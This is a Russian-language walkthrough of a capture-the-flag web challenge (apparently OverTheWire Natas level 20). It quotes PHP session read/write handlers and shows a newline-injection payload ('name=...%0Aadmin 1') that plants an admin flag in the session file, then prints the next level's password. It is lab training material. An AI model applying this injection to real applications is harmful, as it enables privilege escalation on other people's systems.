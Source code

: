В данном случае интерес представляют 2 функции
```php
function myread($sid) {
    debug("MYREAD $sid");
    if(strspn($sid, "1234567890qwertyuiopasdfghjklzxcvbnmQWERTYUIOPASDFGHJKLZXCVBNM-") != strlen($sid)) {
    debug("Invalid SID");
        return "";
    }
    $filename = session_save_path() . "/" . "mysess_" . $sid;
    if(!file_exists($filename)) {
        debug("Session file doesn't exist");
        return "";
    }
    debug("Reading from ". $filename);
    $data = file_get_contents($filename);
    $_SESSION = array();
    foreach(explode("\n", $data) as $line) {
        debug("Read [$line]");
    $parts = explode(" ", $line, 2);
    if($parts[0] != "") $_SESSION[$parts[0]] = $parts[1];
    }
    return session_encode() ?: "";
}
```
и 
```php
function mywrite($sid, $data) {
    debug("MYWRITE $sid $data");
    if(strspn($sid, "1234567890qwertyuiopasdfghjklzxcvbnmQWERTYUIOPASDFGHJKLZXCVBNM-") != strlen($sid)) {
    debug("Invalid SID");
        return;
    }
    $filename = session_save_path() . "/" . "mysess_" . $sid;
    $data = "";
    debug("Saving in ". $filename);
    ksort($_SESSION);
    foreach($_SESSION as $key => $value) {
        debug("$key => $value");
        $data .= "$key $value\n";
    }
    file_put_contents($filename, $data);
    chmod($filename, 0600);
    return true;
}
```
последовательность вызовов такая
сначала вызывается myread, затем mywrite
это выходит из:
```php
session_set_save_handler(
    "myopen",
    "myclose",
    "myread",
    "mywrite",
    "mydestroy",
    "mygarbage"
);
```
разберем вторую функцию
она пишет в файл сессии, который лежит на серваке, ПО ИЗНАЧАЛЬНОЙ ЗАДУМКЕ, строку
```txt
name lolkek123haha
```
затем, во время следующей сессии myread читает имя и выводит его
проблема заключается в том, что myread берет последнее значение, то есть если записать в файл сессии что то из разряда
```txt
name lolkek123haha
admin 1
```
скрипт запише в \_SESSION admin 1
что и надо для вывода кредов
```php
function print_credentials() { /* {{{ */
    if($_SESSION and array_key_exists("admin", $_SESSION) and $_SESSION["admin"] == 1) {
    print "You are an admin. The credentials for the next level are:<br>";
    print "<pre>Username: natas21\n";
    print "Password: <censored></pre>";
    } else {
    print "You are logged in as a regular user. Login as an admin to retrieve credentials for natas21.";
    }
}
```
остается при помощи функции mywrite занести admin 1
для этого на первом этапе передаем параметром
```url_param
name=lolkek%0Aadmin 1
```
где %0A - эквивалент \n, переноса строки
на втором этапе посчитает нашу сессию админской и выведет креды

Username: natas21
Password: BPhv63cKE1lkQl04cE5CuFTzXe15NfiH